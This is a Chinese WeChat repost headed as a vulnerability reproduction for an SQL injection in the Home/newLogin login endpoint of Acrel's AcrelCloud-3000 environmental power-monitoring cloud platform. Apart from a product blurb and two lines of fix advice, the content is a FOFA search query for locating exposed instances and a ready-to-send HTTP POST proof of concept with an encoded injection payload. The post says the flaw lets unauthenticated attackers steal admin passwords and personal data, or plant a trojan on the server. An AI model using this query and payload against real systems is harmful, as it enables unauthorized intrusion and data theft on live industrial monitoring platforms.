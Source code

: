 #  【漏洞复现】安科瑞环保用电监管云平台 HomenewLogin SQL注入漏洞复现   
河北镌远  河北镌远网络科技有限公司   2024-11-29 10:23  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/5xic9OHsHiafbUVg4naibSQnNsuMVRYqdlLLzHovhH9jcrrEaj6ia94y9TTpBJTlQDQBcgwMczFq8BRURR9fJIdeLg/640?wx_fmt=gif&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz/UC6M1Hf0SSEpr1lbbiatiaxPJc8y9JcOeRyJOIhsibwSxWPmHCqJwzWX8xTMz9MYLpHKAkRfY2fcMqovyxrR9KpAw/640?wx_fmt=gif "")  
  
点击箭头处  
“蓝色字”  
，关注我们哦！！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWjQUicurovUqWM6AK77bH7BF2uEmx5b0F3eOp7LL5aBicsKltjC73EKjAMLMkUBHjA3LVWbjicR5cnYg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**产品简介**  
  
  
  
**AcrelCloud-3000环保用电监管云平台**依托创新的物联网电力传感技术，实时采集企业总用电、生产设备及环保治理设备用电数据，通过关联分析、超限分析、停电分析、停限产分析，结合及时发现环保治理设备未开启、异常关闭及减速、空转、降频等异常情况，同时通过数据分析还可以实时监控限产和停产整治企业运行状态，用户可以利用PC、手机、平板电脑等多种终端实现对平台的访问。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWjQUicurovUqWM6AK77bH7BF2uEmx5b0F3eOp7LL5aBicsKltjC73EKjAMLMkUBHjA3LVWbjicR5cnYg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**漏洞概述**  
  
  
  
**安科瑞环保用电监管云平台 Home/newLogin 登录接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息(例如，管理员后台密码、站点的用户个人信息)之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWjQUicurovUqWM6AK77bH7BF2uEmx5b0F3eOp7LL5aBicsKltjC73EKjAMLMkUBHjA3LVWbjicR5cnYg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**复现环境**  
  
  
  
**FOFA：body="myCss/phone.css"**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5xic9OHsHiafbf9icrGmmuFafP7l9nS8vGuQybmSghrzjdEfhZjTVzbnh2nB7JMfeaBaPribNYuaX3nz3VuxorGhbg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWjQUicurovUqWM6AK77bH7BF2uEmx5b0F3eOp7LL5aBicsKltjC73EKjAMLMkUBHjA3LVWbjicR5cnYg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**漏洞复现**  
  
  
  
**PoC**  
  
POST /Home/newLogin HTTP/1.1  
  
**Host:**  
  
Accept: application/json, text/javascript, */*; q=0.01  
  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
  
Accept-Encoding: gzip, deflate  
  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
  
X-Requested-With: XMLHttpRequest  
  
Priority: u=0  
  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0  
  
Content-Length: 193  
  
data=AmILgROn2omEYq%2Bd8Urox8DW%2F8rRQwsBzOEz00K3cyMY1DhHq6oDzKni9uNo6p7VIuEZBk0edl%2Blr8MukZeYaoj5ogyFWf1wJQ6iDSwIHOKSdk2%2BRRo%2FbhB70T5AlQ3PB6Ca1I6PvvVefK%2BuEF6b%2BqnvUH5y0gix7tq3yw1WJdc%3D  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5xic9OHsHiafbf9icrGmmuFafP7l9nS8vGuicNtcic7Yf5TjbiaoIh54XicBl53EOUnKGcRUAMbfua3x9JRIXr9GnSEKg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWjQUicurovUqWM6AK77bH7BF2uEmx5b0F3eOp7LL5aBicsKltjC73EKjAMLMkUBHjA3LVWbjicR5cnYg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**修复建议**  
  
  
  
**关闭互联网暴露面或接口设置访问权限**  
  
**升级至安全版本**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5xic9OHsHiafZBZZ3yiaibiaZCPcv4FLUUkic7Juicamh0zLreL6e2KWZpz8iaeeyEnrmV98VmYN5UibkP0tQQoRz5FAswg/640?wx_fmt=png "")  
  
文章来源：  
网络  
  
公众号“河北镌远网络科技有限公司”所发表内容注明来源的，版权归原出处所有（无法查证版权的或者未注明出处的均来自网络，系转载，转载的目的在于传递更多信息，版权属于原作者。如有侵权，请联系，小编会第一时间删除处理。  
  
  
  
  
  
  
  
